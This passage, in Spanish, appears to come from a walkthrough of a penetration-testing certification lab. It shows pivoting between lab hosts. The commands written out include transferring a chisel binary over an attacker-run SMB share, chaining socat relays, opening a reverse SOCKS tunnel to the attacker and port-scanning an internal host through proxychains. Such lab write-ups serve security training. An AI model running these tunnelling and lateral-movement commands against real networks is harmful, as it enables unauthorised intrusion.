     ```bash
    gunzip chisel_1.9.1_windows_amd64.gz
    mv chisel_1.9.1_windows_amd64.gz chiselwin
    ```
    

Aprovechando el túnel creado por el puerto 445, se transferirá el binario utilizando SMB.

```bash
# En la máquina atacante
impacket-smbserver smbFolder $(pwd) -smb2support

# En la máquina Dumbledore
copy \\30.30.30.6\smbFolder\chiselwin C:\Windows\Temp\chiselwin
```

Ahora se crean los socats para que la máquina Dumbledore se conecte como cliente al servidor principal de chisel.

```bash
# En la máquina Aragog
./socat TCP-LISTEN:6060,fork TCP:192.168.0.104:1234

# En la máquina Nagini
./socat TCP-LISTEN:6060,fork TCP:20.20.20.4:6060

# En la máquina Dumbledore
.\chisel client 30.30.30.6:6060 R:9997:socks
```

Por último, en la máquina atacante ahora se debe modificar el archivo “/etc/proxychains.conf” para agregar el nuevo proxy.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 106.png)

### Escaneo de puertos con nmap

Ahora se buscarán puertos abiertos en la máquina Matrix.

```bash
{% raw %}
seq 1 65535 | xargs -P 20 -I {} proxychains nmap -p{} -sT -Pn -n --open 40.40.40.5 2>/dev/null | grep "tcp open"
{% endraw %}
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 107.png)

El puerto 80 está abierto y para ver la página web, hay que configurar un nuevo proxy en el foxyproxy.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 108.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 109.png)

En esta web no hay nada más interesante por lo que ahora toca revisar el puerto 31337.

